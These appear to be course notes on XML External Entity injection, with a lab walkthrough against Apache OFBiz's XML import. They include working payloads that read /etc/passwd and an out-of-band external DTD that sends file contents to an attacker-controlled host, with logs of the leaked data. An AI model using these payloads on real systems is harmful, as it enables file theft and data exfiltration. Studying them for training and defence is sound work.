# Module 11: XML External Entities

## Introduction to XML

### XML Entities

_A data structure containing valid XML code that will be referenced multiple times in a document. Think of it like a placeholder for content. Similar to variables in programming._

#### Internal Entities

Internal entities are _locally_ defined within the DTD.

_A sample DTD declaration_

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE name [ 
... one or more entities ...
]>
```

_The format of an internally parsed entity_

```markup
<!ENTITY name "entity_value">
```

_Example of internal entity syntax_

```markup
<!ENTITY test "<entity-value>test value</entity-value>">
```

#### External Entities

External entities are used when referencing data not defined locally within an XML document. They can be split into _private_ and _public_ groups.

_The format of a privately parsed external entity_

```markup
<!ENTITY name SYSTEM "URI">
```

_Example of private external entity syntax_

```xml
<!ENTITY offsecinfo SYSTEM "http://www.offsec.com/company.xml">
```

_The format of a publicly parsed external entity_

```markup
<!ENTITY name PUBLIC "public_id" "URI">
```

_Example of public external entity syntax_


```markup
<!ENTITY offsecinfo PUBLIC "-//W3C//TEXT companyinfo//EN" "http://www.offsec.com/companyinfo.xml">
```


#### Parameter Entities

These exist solely within a DTD.

_The format of a parameter entity_

```markup
<!ENTITY % name SYSTEM "URI">
```

_An example of a parameter entity_

```markup
<!ENTITY % course 'WEB 200'>
<!ENTITY Title 'Offensive Security presents %course;'>
```

## Understanding XML External Entity Processing Vulnerabilities

An XML External Entity (XXE) injection is a specific type of attack against XML parsers — the attacker forces the parser to process one or more external entities, resulting in the disclosure of confidential information not normally accessible by the application.

## Testing for XXE

### Retrieving Files

_An external entity example_

```markup
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY lastname SYSTEM "file:///etc/passwd">
]>
<Contact>
  <lastName>&lastname;</lastName>
  <firstName>Tom</firstName>
</Contact>
```

### Error-based Testing

_Utilize the errors to store data in the database, or in-band exfiltration._

### Out-of-Band Testing

Using another server in a server-side request forgery attack, or as a means to exfiltrate data back to a server we control.

_External entity with an HTTP URL_

```markup
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY lastname SYSTEM "http://<our ip address>/somefile">
]>
<Contact>
  <lastName>&lastname;</lastName>
  <firstName>Tom</firstName>
</Contact>
```

## Case Study: Apache OFBiz XXE Vulnerability

### Accessing Apache OFBiz

_Start the VPN, VM, and add its IP to your hosts file._

### Discovery

<figure><figcaption><p>Menu options including Web Tools</p></figcaption></figure>

<figure><figcaption><p>Web Tools Main Page including Entity XML Tools</p></figcaption></figure>

<figure><figcaption><p>XML Export Data</p></figcaption></figure>

<figure><figcaption><p>Exporting Product XML</p></figcaption></figure>

_Sample Product XML_


```markup
<?xml version="1.0" encoding="UTF-8"?>
<entity-engine-xml>
	<Product 
		createdStamp="2021-06-04 08:15:49.363" 
		createdTxStamp="2021-06-04 08:15:48.983" 
		description="Giant Widget with Wheels" 
		internalName="Giant Widget variant explosion" 
		isVariant="N" 
		isVirtual="Y" 
		largeImageUrl="/images/products/WG-9943/large.png" 
		lastUpdatedStamp="2021-06-04 08:16:18.521" 
		lastUpdatedTxStamp="2021-06-04 08:16:18.258" 
		longDescription="This giant widget is mobile. It will seat one person safely. The wheels will never rust or break. Quite a unique item." 
		primaryProductCategoryId="202" 
		productId="WG-9943" 
		productName="Giant Widget with variant explosion" 
		productTypeId="FINISHED_GOOD" 
		productWeight="22.000000" 
		quantityIncluded="10.000000" 
		smallImageUrl="/images/products/WG-9943/small.png" 
		virtualVariantMethodEnum="VV_VARIANTTREE"
  />
...
</entity-engine-xml> 
```


_Restructured Product XML_


```markup
<Product 
  createdStamp="2021-06-04 08:15:49.363" 
  createdTxStamp="2021-06-04 08:15:48.983" 
  description="Giant Widget with Wheels" 
  internalName="Giant Widget variant explosion" 
  isVariant="N" 
  isVirtual="Y" 
  largeImageUrl="/images/products/WG-9943/large.png" 
  lastUpdatedStamp="2021-06-04 08:16:18.521" 
  lastUpdatedTxStamp="2021-06-04 08:16:18.258" 
  primaryProductCategoryId="202" 
  productId="XXE-0001" 
  productName="Giant Widget with variant explosion" 
  productTypeId="FINISHED_GOOD" 
  productWeight="22.000000" 
  quantityIncluded="10.000000" 
  smallImageUrl="/images/products/WG-9943/small.png"   
  virtualVariantMethodEnum="VV_VARIANTTREE"
>
  <longDescription>This giant widget is mobile. It will seat one person safely. The wheels will never rust or break. Quite a unique item.</longDescription>
</Product>
```


_Base XXE payload_


```markup
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe "Vulnerable to XXE">
]>
<entity-engine-xml>
<Product createdStamp="2021-06-04 08:15:49.363" createdTxStamp="2021-06-04 08:15:48.983" description="Giant Widget with Wheels" internalName="Giant Widget variant explosion" isVariant="N" isVirtual="Y" largeImageUrl="/images/products/WG-9943/large.png" lastUpdatedStamp="2021-06-04 08:16:18.521" lastUpdatedTxStamp="2021-06-04 08:16:18.258" primaryProductCategoryId="202" productId="XXE-0001" productName="Giant Widget with variant explosion" productTypeId="FINISHED_GOOD" productWeight="22.000000" quantityIncluded="10.000000" smallImageUrl="/images/products/WG-9943/small.png" virtualVariantMethodEnum="VV_VARIANTTREE">
<longDescription>&xxe;</longDescription>
</Product>
</entity-engine-xml>
```


<figure><figcaption><p>Importing our XML payload</p></figcaption></figure>

<figure><figcaption><p>Searchin for our product</p></figcaption></figure>

<figure><figcaption><p>Search results for XXE-0001</p></figcaption></figure>

<figure><figcaption><p>The Long Description field contains Vulnerable to XXE</p></figcaption></figure>

### Exploitation

_Updated XXE payload with external entity_


```markup
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<entity-engine-xml>
<Product createdStamp="2021-06-04 08:15:49.363" createdTxStamp="2021-06-04 08:15:48.983" description="Giant Widget with Wheels" internalName="Giant Widget variant explosion" isVariant="N" isVirtual="Y" largeImageUrl="/images/products/WG-9943/large.png" lastUpdatedStamp="2021-06-04 08:16:18.521" lastUpdatedTxStamp="2021-06-04 08:16:18.258" primaryProductCategoryId="202" productId="XXE-0001" productName="Giant Widget with variant explosion" productTypeId="FINISHED_GOOD" productWeight="22.000000" quantityIncluded="10.000000" smallImageUrl="/images/products/WG-9943/small.png" virtualVariantMethodEnum="VV_VARIANTTREE">
<longDescription>&xxe;</longDescription>
</Product>
</entity-engine-xml>
```


<figure><figcaption><p>Long Description now contains the contents of /etc/passwd</p></figcaption></figure>

### Error-Based Exploitation

_Updated payload with "createdStamp" element_


```xml
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe  SYSTEM "file:///etc/passwd">
]>
<entity-engine-xml>
<Product createdTxStamp="2021-06-04 08:15:48.983" description="Giant Widget with Wheels" internalName="Giant Widget variant explosion" isVariant="N" isVirtual="Y" largeImageUrl="/images/products/WG-9943/large.png" lastUpdatedStamp="2021-06-04 08:16:18.521" lastUpdatedTxStamp="2021-06-04 08:16:18.258" primaryProductCategoryId="202" productId="XXE-0001" productName="Giant Widget with variant explosion" productTypeId="FINISHED_GOOD" productWeight="22.000000" quantityIncluded="10.000000" smallImageUrl="/images/products/WG-9943/small.png" virtualVariantMethodEnum="VV_VARIANTTREE">
<createdStamp>&xxe;</createdStamp>
<longDescription>XXE</longDescription>
</Product>
</entity-engine-xml>
```


<figure><figcaption><p>Illegal Argument Exception due to Timestamp format</p></figcaption></figure>

_Updated payload with the external entity reference in the "description" element_


```markup
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe  SYSTEM "file:///etc/passwd">
]>
<entity-engine-xml>
<Product createdTxStamp="2021-06-04 08:15:48.983" internalName="Giant Widget variant explosion" isVariant="N" isVirtual="Y" largeImageUrl="/images/products/WG-9943/large.png" lastUpdatedStamp="2021-06-04 08:16:18.521" lastUpdatedTxStamp="2021-06-04 08:16:18.258" primaryProductCategoryId="202" productId="XXE-0001" productName="Giant Widget with variant explosion" productTypeId="FINISHED_GOOD" productWeight="22.000000" quantityIncluded="10.000000" smallImageUrl="/images/products/WG-9943/small.png" virtualVariantMethodEnum="VV_VARIANTTREE">
<createdStamp>2021-06-04 08:15:49</createdStamp>
<description>&xxe;</description>
<longDescription>XXE</longDescription>
</Product>
</entity-engine-xml>
```


<figure><figcaption><p>Verbose error message with the contents of /etc/passwd</p></figcaption></figure>

_Error message excerpt from Burp Suite_

```
A truncation error was encountered trying to shrink VARCHAR
```

### Out-of-Band Exploitation

Sometimes we can't access the results of our XXE attack or obtain verbose errors, thus we can try out-of-band XXE attacks. We must create and host our own DTD file that contains two entities.

_Contents of external.dtd_


```markup
<!ENTITY % content SYSTEM "file:///etc/passwd">
<!ENTITY % external "<!ENTITY &#37; exfil SYSTEM 'http://your ip address/out?%content;'>" >
```


_Starting Apache_

```bash
kali@kali:~$ cd /var/www/html/

kali@kali:/var/www/html$ sudo mousepad external.dtd

kali@kali:/var/www/html$ sudo systemctl start apache2
```

_Updated XML payload using the external DTD file_

```markup
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE oob [
<!ENTITY % base SYSTEM "http://your ip address/external.dtd"> 
%base;
%external;
%exfil;
]>
<entity-engine-xml>
</entity-engine-xml>
```

_Illegal character in URL Error Message_


```
The Following Errors Occurred:

ERROR: parsing file: ERROR parsing Entity Xml file: org.xml.sax.SAXException: A transaction error occurred reading data<br/>java.net.MalformedURLException: Illegal character in URL
```



Other programming languages may be more permissive in what they consider a valid URL.


_access.log contents_


```bash
kali@kali:~$ sudo tail /var/log/apache2/access.log
192.168.50.110 - - [08/Jun/2021:13:14:39 -0400] "GET /external.dtd HTTP/1.1" 200 396 "-" "Java/1.8.0_292"
```


_Updated external.dtd_


```markup
<!ENTITY % content SYSTEM "file:///etc/timezone">
<!ENTITY % external "<!ENTITY &#37; exfil SYSTEM 'http://your ip address/out?%content;'>" >
```


_Requests for external.dtd and the exfiltrated data_


```bash
kali@kali:~$ sudo tail /var/log/apache2/access.log
...
192.168.50.110 - - [08/Jun/2021:14:14:42 -0400] "GET /external.dtd HTTP/1.1" 200 398 "-" "Java/1.8.0_292"
192.168.50.110 - - [08/Jun/2021:14:14:42 -0400] "GET /out?Etc/UTC HTTP/1.1" 404 490 "-" "Java/1.8.0_292"
```

